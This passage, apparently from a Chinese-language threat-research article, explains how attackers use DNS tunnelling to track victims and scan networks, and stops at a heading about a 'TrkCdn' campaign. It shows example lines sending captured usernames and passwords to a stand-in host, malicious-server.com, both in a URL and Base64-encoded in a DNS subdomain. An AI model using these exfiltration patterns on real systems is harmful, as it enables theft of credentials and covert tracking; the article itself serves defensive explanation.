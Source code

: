 - 用于跟踪目的的 DNS 隧道  
    攻击者可以使用 DNS 隧道来跟踪与垃圾邮件、网络钓鱼和广告内容相关的受害者行为。攻击者通过向受害者分发恶意域并将受害者的身份信息编码在该域的子域的有效负载中来实现跟踪。
- 用于扫描目的的 DNS 隧道  
    攻击者可能会使用欺骗性的源 IP 地址并将 IP 地址和时间戳编码在隧道有效负载中来扫描您的网络基础设施。然后，攻击者可以发现开放解析器并利用这些解析器中的漏洞来执行 DNS 攻击。这可能会导致恶意重定向和拒绝服务 (DoS)。

为了更好地理解这两个新用例，以下部分描述了我们观察到的使用 DNS 隧道进行跟踪和扫描的活动。

用于跟踪目的的 DNS 隧道
==============

在传统的 C2 通信中，黑客通常会利用一种叫做C2通信的方法来远程控制受害者的计算机。在这种方法中，黑客会把受害者的行为数据（比如访问过的网页、输入的密码等）隐藏在一个网址里，然后通过网络把这个网址发送到他们控制的服务器。这种方式看起来就像是正常的网络活动，所以不容易被发现。  
**示例：**  
受害者访问了一个网页，其URL是：

```html
http://example.com/page
```

恶意软件捕获了这个URL，并记录了受害者在页面上的键盘输入，比如：

```html
username=xz&password=12345
```

然后，恶意软件将这些数据编码后嵌入到新的URL中，例如：

```html
http://malicious-server.com/track?data=http%3A%2F%2Fexample.com%2Fpage%26username%3Dxz%26password%3D12345
```

在这个示例中，攻击者通过HTTP请求将受害者访问的URL和键盘输入数据发送到自己的C2服务器。

在 DNS 隧道的情况下，黑客使用DNS隧道技术。他们会把受害者的行为数据编码后放在DNS请求的子域名部分，然后通过DNS流量把这些数据发送到他们的服务器。这种方法同样不容易被察觉，因为DNS流量通常不会被严格监控。  
**示例：**  
受害者的行为数据被编码成：

```html
dXNlcm5hbWU9eHomcGFzc3dvcmQ9MTIzNDUK
```

这个字符串是将原始数据username=xz&amp;password=12345进行Base64编码的结果。

然后，恶意软件构建一个伪装的DNS查询，将编码后的数据嵌入到子域中：

```html
dXNlcm5hbWU9eHomcGFzc3dvcmQ9MTIzNDUK.malicious-server.com
```

当DNS查询这个子域时，包含的数据会被发送到攻击者控制的DNS服务器。攻击者的DNS服务器会解析这个查询，从中提取出隐藏的数据。

当 DNS 隧道用于此目的时，攻击者的恶意软件会将有关特定用户及其操作的信息嵌入到 DNS 查询的独特子域中。该子域是隧道有效负载，FQDN 的 DNS 查询使用攻击者控制下的域。

攻击者控制的域的权威名称服务器接收此 DNS 查询。该攻击者下的名称服务器存储该域的所有 DNS 查询。这些 DNS 查询的独特子域和时间戳提供了受害者活动的日志。这种跟踪不仅限于单个受害者；这种方法允许攻击者跟踪活动中的多个受害者。

TrkCdn DNS 隧道攻击活动
=================
